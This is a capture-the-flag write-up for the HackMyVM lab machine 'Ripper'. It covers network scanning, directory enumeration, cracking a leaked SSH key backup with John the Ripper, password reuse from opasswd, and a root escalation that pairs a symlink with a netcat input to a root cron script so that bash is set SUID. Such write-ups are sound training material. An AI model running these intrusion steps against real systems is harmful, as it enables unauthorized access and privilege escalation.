 ```yaml
---
title: "Ripper - HackMyVM"
summary: "Difficulty: Easy 🟢"
---
```


<style>

h6 {
  text-align: center;
  font-style: italic;
  font-weight: normal;
  position: relative;
  top: -10px;
}

img {
    display: flex !important;
    margin: 0 auto !important;
    justify-content: center !important;
    border-radius: 14px;
    border: 2px solid #4a90e2;
    box-shadow: 0 2px 6px rgba(0, 0, 0, 0.1);
    transition: box-shadow 0.3s ease, transform 0.3s ease;
}
img:hover {
    box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
    transform: scale(1.03);
}

</style>

[Machine Link](https://hackmyvm.eu/machines/machine.php?vm=Ripper)

To begin, let's find the IP of our target machine using arp-scan by executing the following command:

```bash
arp-scan -I eth0 --localnet
```

> 📝 **NOTE:** Normally, the MAC addresses of VirtualBox virtual machines start with 08:


Now that we know its IP **192.168.18.169**, let's perform a port scan using **NMAP** to identify which ports are **open**, their **services**, and more information.

![01](/images/writeups/ripper/1.png)

<h6>NMAP scan</h6>

So now that we know it has ports **22** and **80** open, let's access the web page hosted on this machine to see if we can find any useful information.

![02](/images/writeups/ripper/2.png)

It tells us that the website is under maintenance, nothing more. So, I decide to use [**Gobuster**](https://github.com/OJ/gobuster) to enumerate subdirectories, and I come across a text file named ***staff_statements.txt***:

![03](/images/writeups/ripper/3.png)
<h6>Gobuster enumeration</h6>

![04](/images/writeups/ripper/4.png)
<h6>staff_statements.txt</h6>

The site is not yet repaired. Technicians are working on it by using **old SSH connection files**. Although the message doesn't specify which files, I inferred it could involve older key files like ***id_rsa.bak*** rather than the current ***id_rsa***. I searched for these old files, found them, and proceeded to download them.

![05](/images/writeups/ripper/5.png)
<h6>We download id_rsa.bak</h6>

Now that we have ***id_rsa.bak***, we still need to know the **username** to log in. We already know the username since it is displayed when the machine starts:

![06](/images/writeups/ripper/6.png)
<h6>User Jack</h6>

Before anything else, we need to grant permissions to the ***id_rsa.bak*** file with the following command:

```bash
chmod 600 id_rsa.bak
```

But when trying to access via **SSH**, it asks for a **password**, preventing us from entering.

![07](/images/writeups/ripper/7.png)
<h6>It prevents us from accessing.</h6>

So, we can use **John the Ripper** to crack the password.

```bash
ssh2john id_rsa.bak > hash
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![08](/images/writeups/ripper/8.png)
<h6>John the Ripper result</h6>

Now that we know the password, we can access.

![09](/images/writeups/ripper/9.png)
<h6>We are the user Jack</h6>

I decide, first of all, to check the users on this machine.

```bash
grep /bin/bash /etc/passwd
```

![10](/images/writeups/ripper/10.png)
<h6>Users on the machine</h6>

And we find 3 users: **jack**, **helder**, **root**. 

Now it's time for privilege escalation. In this case, we need to perform 2 privilege escalations to become the root user.

## Privilege escalation to helder

Now, let's use [**LinPEAS**](https://github.com/peass-ng/PEASS-ng), a tool for enumeration and security auditing. It focuses on identifying files with the **SUID** (Set User ID) and **SGID** (Set Group ID) permission bits set, which can potentially be exploited by attackers to escalate privileges and gain unauthorized access.

We download **LinPEAS** with the following command:

```bash
wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

![11](/images/writeups/ripper/11.png)


We grant permissions for its execution and run it, saving the results in a file named ***LinpeasLog***.

```bash
./linpeas.sh > LinpeasLog
```

And after some time of searching, I come across the following:

![12](/images/writeups/ripper/12.png)

> 📝 **NOTE:** The **opasswd** file stores users' old passwords in Linux to prevent them from reusing them when changing their password.


Although it says it was **Jack**’s password, since some people reuse passwords (which is bad practice) we decided to check if it works for **Helder**. I tried it, and it worked. We obtained the user flag.

![13](/images/writeups/ripper/13.png)

Upon realizing that [**LinPEAS**](https://github.com/peass-ng/PEASS-ng) didn't reveal anything new, I decide to use [**pspy**](https://github.com/DominicBreuker/pspy). It is a **process monitoring tool** that provides real-time visibility into running processes without requiring elevated privileges. I downloaded it to my local machine and transferred it to the target machine by hosting a simple **Python** web server.

![14](/images/writeups/ripper/14.png)

Now we grant permissions and execute it.

![15](/images/writeups/ripper/15.png)

![16](/images/writeups/ripper/16.png)
<h6>Result</h6>

We discovered a script that runs every minute as the **root** user (UID 0) and uses **netcat** to connect to localhost on **port 10000**, saving the data exchanged over the connection to a file named out in ***/root/.local/***. Afterwards, it compares the contents of ***/root/.local/helder.txt*** and ***/home/helder/passwd.txt***. If they match, it sets the **SUID** bit on the executable located in ***/usr/bin/***, with the filename specified by the content of the out file.

To achieve this, the first step is to create the ***passwd.txt*** file in ***/home/helder*** as a symbolic link pointing to ***/root/.local/helder.txt***. This ensures that ***passwd.txt*** contains the same content as ***helder.txt***, so the condition will be true.

```bash
ln -s /root/.local/helder.txt /home/helder/passwd.txt
```

> ⚠️ **IMPORTANT**: A symbolic link is like a shortcut that points to another file. When a program accesses the link, it actually reads the file it points to. So even if you don’t own the original file, the program can access it through the link.


Then, we check with the following command to confirm that it indeed points to ***/root/.local/helder.txt***.

```bash
ls -la /home/helder/passwd.txt 
```

Now, we listen on **port 10000** and send the text '**bash**'. When the script runs, it will save this input to the out file and set the **SUID** bit on the corresponding executable in **/usr/bin/**. In this case, we're **granting SUID permissions to bash**.

```bash
echo 'bash' | nc -lvnp 10000
```

![17](/images/writeups/ripper/17.png)
<h6>What I mentioned can be observed in the code</h6>

After executing the exploit, we notice a brief connection. Now, ***/usr/bin/bash*** has the **SUID** bit set. Simply running the command **bash -p** grants us root privileges.

```bash
bash -p
```

![18](/images/writeups/ripper/18.png)
<h6>All the previous process</h6>

Finally, we navigate to the ***/root*** directory and obtain the **root flag**.

![19](/images/writeups/ripper/19.png)

